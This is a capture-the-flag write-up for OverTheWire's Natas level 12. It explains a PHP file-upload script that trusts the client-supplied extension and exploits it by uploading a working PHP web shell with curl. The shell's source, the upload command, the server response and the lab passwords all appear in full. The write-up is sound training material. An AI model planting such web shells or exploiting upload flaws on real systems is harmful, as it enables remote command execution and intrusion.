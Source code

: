 # Natas Level 12

```bash
Username: natas12
Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
URL:      http://natas12.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas12.png" />
    <div align="center">Natas 12</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas12-view-sourcecode.png" />
    <div align="center">Natas 12 - View sourcecode</div>
</figure>

Lets understand the script:
```php
function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 

    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else {
```
<em>(The last "else" is probably a mistake).</em>

<em>genRandomString</em> just returns random string of size 10 (from the chars: 0123456789abcdefghijklmnopqrstuvwxyz).

<em>makeRandomPath</em> have two arguments: dir, ext.
It returns the concatenation dir +"/" +  "random string" + "." + ext

<em>makeRandomPathFromFilename</em> have two arguments as well: dir, fn.
It splits the last extension of fn and returns "random path from filename" with this extension (in the specific dir).

The script stores in $target_path unique filename (in the dir: uploads) and the uploaded file, then it checks that the file isn't too big (less or equal to 1000 bytes) and then trying to upload the file into the $target_path

Lets try to upload a simple PHP webshell (save as a local file and upload it):

```php
<?php

if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}

?>
```
We can see that the filename hidden value have .jpg extension, so we need to change it to .php, lets use cURL again:

```bash
curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 --form uploadedfile=@PHP-webshell.php --form filename=shell.php http://natas12.natas.labs.overthewire.org
```

The result I got is:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="<strong>upload/6imq7a1ubt.php</strong>">upload/6imq7a1ubt.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

So, I just need to send the GET parameter (cmd) to upload/6imq7a1ubt.php

Lets try a dummy [command](http://natas12.natas.labs.overthewire.org/upload/6imq7a1ubt.php?cmd=hostname) (cmd="hostname"):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas12-webshell-demo.png" />
    <div align="center">Natas 12 - Webshell demo</div>
</figure>
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas12-webshell.png" />
    <div align="center">Natas 12 - Webshell</div>
</figure>

We got the password for the next level: **jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**